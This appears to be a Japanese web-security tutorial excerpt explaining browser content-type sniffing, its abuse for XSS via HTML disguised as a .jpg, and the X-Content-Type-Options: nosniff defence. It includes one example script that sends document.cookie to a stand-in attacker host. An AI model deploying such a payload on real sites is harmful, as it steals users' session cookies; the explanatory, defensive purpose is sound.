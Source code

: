 ## HTML content type sniffing 
ブラウザは、送付されたHTMLのデータ内容から、その内容のタイプを推測し、それに該当する方法でレスポンスを使用する機能がある。通常ではHTMLのヘッダーに、そのHTMLデータのタイプを明記しているのがほとんどだが、データタイプの表記間違いや、そもそもデータタイプを記載していない場合にtype sniffingすることでレスポンスを正しく解釈することができる。
その一方、この機能を悪用して、わざとブラウザに勘違いするような記入の仕方でデータを入力するXSS攻撃手法がある。
それは、例えばテキストタイプのファイルに、実行可能スクリプトを埋め込み、ブラウザを誘導することでスクリプトを実行させる。
例えば下記のように、スクリプトを.jpgファイルとして保存すると、ブラウザがその.jpgファイルを読み込む時、中にある\<script>を認識し、スクリプトとして処理してしまう。
```html
<!-- Imagine this is saved as "profile-pic.jpg" but actually contains HTML/JavaScript -->
<html>
<body>
<script>
// Malicious code here
document.location='http://attacker.com/steal.php?cookie='+document.cookie;
</script>
</body>
</html>
```

## X-Content-Type-Options
X-Content-Type-Optionsは、HTMLのヘッダーオプションの一つで、`nosniff`に設定すことで、ブラウザにレスポンスの内容ではなく、その規定したタイプで処理しようと指示することができる。
```http
HTTP/1.1 200 OK
X-Content-Type-Options: nosniff
Content-Type: text/html; charset=utf-8
...
```